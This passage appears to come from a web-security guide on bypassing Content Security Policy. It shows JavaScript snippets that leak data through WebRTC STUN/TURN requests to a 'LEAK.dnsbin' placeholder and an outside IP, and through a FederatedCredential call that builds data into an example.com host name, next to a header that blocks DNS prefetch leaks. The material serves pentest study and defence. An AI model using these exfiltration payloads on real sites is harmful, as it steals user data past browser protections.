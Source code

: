 In order to avoid this from happening the server can send the HTTP header:

```
X-DNS-Prefetch-Control: off
```

> [!NOTE]
> Apparently, this technique doesn't work in headless browsers (bots)

### WebRTC

On several pages you can read that **WebRTC doesn't check the `connect-src` policy** of the CSP.

Actually you can _leak_ informations using a _DNS request_. Check out this code:

```javascript
;(async () => {
  p = new RTCPeerConnection({ iceServers: [{ urls: "stun:LEAK.dnsbin" }] })
  p.createDataChannel("")
  p.setLocalDescription(await p.createOffer())
})()
```

Another option:

```javascript
var pc = new RTCPeerConnection({
  "iceServers":[
      {"urls":[
        "turn:74.125.140.127:19305?transport=udp"
       ],"username":"_all_your_data_belongs_to_us",
      "credential":"."
    }]
});
pc.createOffer().then((sdp)=>pc.setLocalDescription(sdp);
```

### CredentialsContainer

The credential popup sends a DNS request to the iconURL without being restricted by the page. It only works in a secure context (HTTPS) or on localhost.

```javascript
navigator.credentials.store(
  new FederatedCredential({
    id:"satoki", 
    name:"satoki", 
    provider:"https:"+your_data+"example.com", 
    iconURL:"https:"+your_data+"example.com"
    })
  )
```


## Checking CSP Policies Online
